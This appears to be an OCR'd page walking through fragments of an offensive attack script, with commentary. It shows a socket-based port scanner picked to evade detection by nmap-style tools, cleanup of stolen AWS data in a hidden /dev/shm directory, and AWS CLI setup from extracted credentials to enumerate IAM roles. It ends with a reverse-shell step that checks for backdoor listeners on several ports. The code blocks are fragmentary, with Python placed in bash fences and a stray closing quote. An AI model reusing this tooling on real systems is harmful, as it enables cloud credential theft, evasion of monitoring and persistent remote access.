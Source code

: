 ```bash
try:
    # Check socket connection method
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(("127.0.0.1", 9999))
    sock.listen(1)
    print("Socket binding test successful (127.0.0.1:9999)")
    sock.close()
except Exception as e:
    print("Socket binding test failed: {}".format(str(e)))

# Run netstat to see actual listening ports
try:
    print("\nActual listening ports (netstat):")
    os.system("netstat -tuln | grep LISTEN")
except Exception as e:
    print("Netstat error: {}".format(str(e)))

print("\n===== SCAN COMPLETE =====")
') || log "$RED" "Port scanning timed out but continuing with attack"

# Print a marker to show we've completed the scanning section
log "$GREEN" "Port scanning completed"
```

this is our port scanner. the function maps potential targets and uses a socket-based scanner to avoid alert-prone tools like `nmap`. it targets both the payload server and localhost and performs a socket binding test to validate the network stack access.

```bash
# Remove AWS data
if [ -f /dev/shm/.../...HIDDEN.../AWS_data.txt ]; then
  log "$BLUE" "AWS data file size: $(wc -c < /dev/shm/.../...HIDDEN.../AWS_data.txt) bytes"
  rm -f /dev/shm/.../...HIDDEN.../AWS_data.txt
fi

log "$CYAN" "Getting IAM roles list ..."
# Configure AWS CLI with credentials from our mounted secret file
if [ -f "$AWS_CRED_PATH/aws-keys.json" ]; then
  log "$BLUE" "Setting up AWS credentials for CLI tools"
```

this function attempt to create AWS CLI configuration files from the extracted credentials. it basically tests the credentials by attempting to list the associated IAM roles. 

```bash
log "$CYAN" "Creating reverse shell ..."
log "$BLUE" "Checking for existing backdoors..."
nc_listeners=$(netstat -tuln | grep "4444\|5555\|6666\|7456")
if [ -n "$nc_listeners" ]; then
  log "$GREEN" "Found backdoor listeners:"
  echo "$nc_listeners"
else
  log "$BLUE" "No backdoor listeners found"
fi
```
